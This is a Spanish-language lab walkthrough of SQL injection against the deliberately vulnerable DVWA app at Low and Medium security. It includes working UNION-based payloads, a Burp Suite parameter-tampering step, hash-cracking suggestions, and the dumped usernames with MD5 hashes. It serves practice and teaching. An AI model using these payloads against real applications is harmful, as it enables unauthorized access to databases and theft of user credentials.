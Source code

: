 #SQL INJECTION DVWA

## SQL Injection en **Low** Security

### Pasos:

1. Ve al menú izquierdo y selecciona **SQL Injection**.
2. En el campo **User ID**, ingresa el siguiente payload:

```sql
1' OR '1'='1
```

Con el anterior payload hemos consegido los usuarios como vemos en la siguiente captura:

![Usuarios](./Imagenes/Usuarios.png)

Ahora necesitaremos obtener las contraseñas, para ellos usaremos el siguiente payload:

```sql
' UNION SELECT user, password FROM users#
```
captura:

![Contraseñas](./Imagenes/Contraseñas.png)

Y para finalizar tendremos que transformar los hashes en texto plano, podriamos usar "jhon the ripper" o por ejemplo yo he usado una web 

[Crackstation](https://crackstation.net/)

captura de las contraseñas en plano:

![Contraseñas en plano](./Imagenes/Contraseñas_en_plano.png)

## SQL Injection en **Medium** Security

### Pasos:

1. Debido al nivel de seguridad **Medium**, el formulario de entrada estaba limitado a un desplegable (select) de 1 a 5. Sin embargo, se identificó que la aplicación seguía utilizando los parámetros GET en la URL, por lo que fue posible manipularlos manualmente.

Cuando usamos '1 OR 1=1' Esta condición siempre es verdadera, forzando que la consulta devuelva todas las filas. 

Usando el payload de low en medium:

![Usando el payload de low en medium](./Imagenes/Low_en_medium.png)


Resultado del anterior payload:

![Resultado del anterior payload](./Imagenes/Resultado_low_en_medium.png)


2. Para interceptar y modificar la petición cambiando el valor del parámetro `id` en burpsuite al valor la URL:

UNION SELECT user, password FROM users: Se utiliza la cláusula UNION para combinar los resultados de dos consultas SQL, obteniendo directamente las columnas user y password de la tabla users.

#: Se utiliza el comentario para ignorar cualquier parte restante de la consulta original que podría causar errores.

```sql
1 OR 1=1 UNION SELECT user, password FROM users#

```

Carga del payload en burpsuite:

![Carga del payload en burpsuite](./Imagenes/Burpsuite_SQL_medium_DVWA.png)


Resultado:

![Resultado](./Imagenes/Contraseñas_medium.png)

3. Ahora como hemos hecho en el low podemos descrifar los hashes.

## Documentacion Extra: Hashes

[Hashes extraídos](./extraccion_de_hashes.txt)
```
text
ID: ' UNION SELECT user, password FROM users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT user, password FROM users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' UNION SELECT user, password FROM users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' UNION SELECT user, password FROM users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' UNION SELECT user, password FROM users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```